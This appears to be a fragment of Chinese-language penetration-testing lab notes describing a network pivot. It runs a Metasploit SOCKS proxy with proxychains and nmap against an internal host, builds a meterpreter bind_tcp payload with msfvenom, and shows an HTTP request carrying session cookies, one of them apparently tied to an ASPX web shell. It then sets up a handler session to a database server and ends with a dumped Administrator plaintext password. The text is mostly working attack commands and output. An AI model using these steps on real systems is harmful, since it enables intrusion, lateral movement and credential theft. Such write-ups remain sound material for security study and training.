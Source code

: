 ![image-20210130195021689](https://i.loli.net/2021/01/30/3PBmeiSp26KInYa.png)

```
 use auxiliary/server/socks_proxy
```

```
sudo vim /etc/proxychains4.conf
```

```
proxychains  nmap -sT -Pn 10.10.10.136 
tcp协议 并且进制ping，因为不会返回ping
```

现在让kali链接到数据库服务器，正向链接

```
msfvenom -p windows/meterpreter/bind_tcp LPORT=13777 -f exe >bind.exe
```

记得上传的时候指定路径

```
GET /member/mtypes.php HTTP/1.1
Host: new.cc123.com
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.104 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://new.cc123.com/member/mtypes.php?dopost=add
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASPSESSIONIDAATCARCB=BAMJIDKCOMLMDFCLGCGEOCJI; ASPXSpy2014=21232f297a57a5a743894a0e4a801fc3; PHPSESSID=2dfvbqc8ms39eajoe5f9c5qv61; DedeUserID=4; DedeUserID__ckMd5=f02b1d395cb070ca; DedeLoginTime=1612061639; DedeLoginTime__ckMd5=7b3bee4e691f1918

```

```
use exploit/multi/handler
set payload windows/meterpreter/bind_tcp
set rhost 10.10.10.147  远程的数据库服务器
set lport 13777
run 
```

现在开始获取数据库服务器里面的用户信息和明文hash

```
Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
Administrator     WIN-JJU7KU45PN7  !@#QWEasd123.
WIN-JJU7KU45PN7$  WORKGROUP        (null)
```
